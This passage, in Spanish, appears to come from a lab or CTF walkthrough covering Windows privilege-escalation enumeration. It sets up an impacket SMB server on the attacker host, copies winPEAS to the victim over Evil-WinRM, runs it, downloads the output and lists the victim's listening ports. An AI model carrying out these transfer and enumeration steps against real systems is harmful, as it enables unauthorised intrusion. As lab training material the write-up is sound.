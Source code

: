 Nuestro usuario no tiene privilegios para poder escalar así que vamos a descargarnos `Winpeas.exe` para que enumere el sistema [https://github.com/peass-ng/PEASS-ng/releases/tag/20240728-0f010225](https://github.com/peass-ng/PEASS-ng/releases/tag/20240728-0f010225). Nos montamos un servidor `SMB` en el `mismo directorio` que el archivo `Winpeas.exe`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Desde la máquina víctima nos `descargamos` el `archivo` 

```
*Evil-WinRM* PS C:\Windows\Temp\Priivesc> copy \\10.10.16.16\smbFolder\winPEASany.exe
*Evil-WinRM* PS C:\Windows\Temp\Priivesc> dir


    Directory: C:\Windows\Temp\Priivesc


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/28/2024  10:12 AM        2387968 winPEASany.exe
```

Ejecutamos `Winpeas.exe` y `almacenamos` el `output` en un archivo para `descargarlo` en nuestra `máquina`, el archivo se `descargará` en la `ruta` de nuestro `equipo` desde la que hemos `abierto` el `evil-winrm`

```
*Evil-WinRM* PS C:\Windows\Temp\Priivesc> ./winPEASany.exe > output.txt
winPEASany.exe : ERROR: Access denied
    + CategoryInfo          : NotSpecified: (ERROR: Access denied:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
    
*Evil-WinRM* PS C:\Windows\Temp\Priivesc> download output.txt
                                        
Info: Downloading C:\Windows\Temp\Priivesc\output.txt to output.txt
                                        
Info: Download successful!
```

Estos son los `puertos` y `servicios` que tiene la máquina víctima

```
Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

TCP        0.0.0.0               80            0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               135           0.0.0.0               0               Listening         704             svchost
TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               5985          0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               47001         0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               49408         0.0.0.0               0               Listening         460             wininit
TCP        0.0.0.0               49409         0.0.0.0               0               Listening         828             svchost
TCP        0.0.0.0               49410         0.0.0.0               0               Listening         1140            spoolsv
TCP        0.0.0.0               49411         0.0.0.0               0               Listening         940             svchost
TCP        0.0.0.0               49412         0.0.0.0               0               Listening         560             services
```